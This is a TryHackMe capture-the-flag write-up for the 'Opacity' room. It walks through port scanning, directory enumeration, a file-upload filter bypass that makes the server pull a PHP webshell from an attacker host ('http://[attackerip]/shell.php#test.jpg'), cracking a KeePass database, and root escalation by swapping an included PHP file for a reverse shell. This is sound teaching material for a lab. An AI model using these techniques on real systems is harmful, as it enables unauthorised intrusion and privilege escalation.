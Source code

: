 ```yaml
---
title: "Opacity"
date: 2025-02-14
image: /assets/img/tryhackme/Opacity/Opacity_image.jpg
description: Writeup of the TryHackMe-CTF Opacity
categories: [Tryhackme, Easy]
tags: [linux, web, php, fileupload, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Opacity</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/opacity">https://tryhackme.com/room/opacity</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Opacity.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.42.149                       
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:23 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 35.25 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,139,445 10.10.42.149
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:24 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.039s latency).

  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
  |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
  |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
  80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | http-title: Login
  |_Requested resource was login.php
  139/tcp open  netbios-ssn Samba smbd 4.6.2
  445/tcp open  netbios-ssn Samba smbd 4.6.2
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-02-14T11:24:26
  |_  start_date: N/A
  |_clock-skew: -6s
  |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```
From here I proceeded the analysis port by port.

## Port 445 Analysis

I analyzed the service with enum4linux, but didn't found any leads to proceed with.

## Port 80 Analysis

The webserver had a login page:

![Webserver Login](/assets/img/tryhackme/Opacity/thm_opacity_1.jpg)

Lacking information about potential credential combinations, I proceeded with a directory enumeration:
```bash
$ gobuster dir --url http://10.10.42.149/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.42.149/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 310] [--> http://10.10.42.149/css/]
  /cloud                (Status: 301) [Size: 312] [--> http://10.10.42.149/cloud/]
```

### /cloud Analysis

Navigating to `/cloud` revealed an upload dialog:

![Webserver Upload](/assets/img/tryhackme/Opacity/thm_opacity_2.jpg)

Above the input field, a small text read `External Link`. I started an HTTP server using Python and provided the URL for a test image. The image was displayed on the webpage, and the direct link was revealed. I continued trying to upload a webshell. After testing several input filter bypasses I was able to upload a php shell with the following bypass:
```html
http://[attackerip]/shell.php#test.jpg
```

![Webserver Uploaded Webshell](/assets/img/tryhackme/Opacity/thm_opacity_3.jpg)

```bash
$ whoami      
  www-data
$ cd /home
$ ls
  sysadmin
$ cd sysadmin
$ ls
  local.txt
  scripts
$ cat local.txt
  cat: local.txt: Permission denied
```

## Port ### Analysis

## Privilege Escalation sysadmin

I searched for files which belonging to `sysadmin` which revealed an interesting file:
```bash
www-data@opacity:/home/sysadmin$ find / -user sysadmin -type f 2>/dev/null
/opt/dataset.kdbx
```

After downloading the file I used `john` for cracking the password:

```bash
$ keepass2john dataset.kdbx > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  [removed]        (dataset)     
  Session completed.
```

With the password I was able to open the Keepass file and found the password for user `sysadmin`. 

![Keepass](/assets/img/tryhackme/Opacity/thm_opacity_4.jpg)

I successfully connected using `ssh`:

```bash
sysadmin@opacity:~$ cat local.txt 
  [removed]
```

## Privilege Escalation root

The user `sysadmin` had a folder called `scripts` in his home directory. The permissions are interesting:
```bash
drwxr-xr-x 2 sysadmin root     4096 Feb 14 17:51 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

This allowed the sysadmin user to modify anything within the lib directory, while `script.php` was executed with root privileges. I searched for a connection inside of the `script.php` and found the following command:
```php
require_once('lib/backup.inc.php');
```

I renamed the `backup.inc.php` file and created a new one which was a php reverse shell. Shortly after, I received an incoming connection:

```bash
# whoami
	root
# cd /root
# ls
  proof.txt
  snap
# cat proof.txt
  [removed]
```

solved! :)
